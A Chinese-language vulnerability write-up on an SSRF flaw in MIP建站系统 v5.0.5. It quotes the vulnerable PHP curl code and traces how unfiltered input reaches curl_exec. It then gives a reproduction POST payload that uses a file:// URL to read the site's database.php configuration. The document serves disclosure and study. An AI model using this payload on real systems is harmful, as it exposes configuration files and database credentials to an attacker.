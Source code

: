 MIP建站系统 v5.0.5 SSRF漏洞
===========================

一、漏洞简介
------------

二、漏洞影响
------------

MIP建站系统 v5.0.5

三、复现过程
------------

### 漏洞分析

进行简单的漏洞分析。根据漏洞定位代码文件：app/setting/controller/ApiAdminDomainSettings.php受影响代码：

    public function urlPost(Request $request) {
            $postAddress = input('post.postAddress');
            if (!$postAddress) {
                return jsonError('请先去设置推送的接口');
            }
            $api = trim($postAddress);
            if (strpos($api,'type=realtime') !== false || strpos($api,'type=batch') !== false) {
                if (!config('siteInfo')['guanfanghaoStatus']) {
                    return jsonError('检测到您未开启熊掌号，请开启后再推送');
                }
            }
            $url = input('post.url');
            $id = input('post.id');
            if (!$url) {
                return jsonError('没有检测到你推送的页面地址');
            }   
            $urls[] = $url;
            $ch = curl_init();
            $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options);
            $result = curl_exec($ch);

流程分析：

    1、$ postAddress = input('post.postAddress');  
        //POST方法将$postAddress参数传入

    2、$api = trim($postAddress);    
    $options =  array(
                CURLOPT_URL => $api,
                CURLOPT_POST => true,
                CURLOPT_RETURNTRANSFER => true,
                CURLOPT_POSTFIELDS => implode("\n", $urls),
                CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
            );
            curl_setopt_array($ch, $options); 
        //赋予$api参数，一直至$ch，未进行任何过滤
    3、$result = curl_exec($ch);    
        //最后执行

### 漏洞复现

第一步，登陆该后台：

第二步，访问所受影响的代码文件：

    http://www.0-sec.org/index.php？s=/setting/ApiAdminDomainSettings/urlPost；
    POST方法进行请求，payload：  
    postAddress=file:///C:\phpStudy\PHPTutorial\WWW\app\database.php&url=test&id=test

![](./.resource/MIP建站系统v5.0.5SSRF漏洞/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/7431

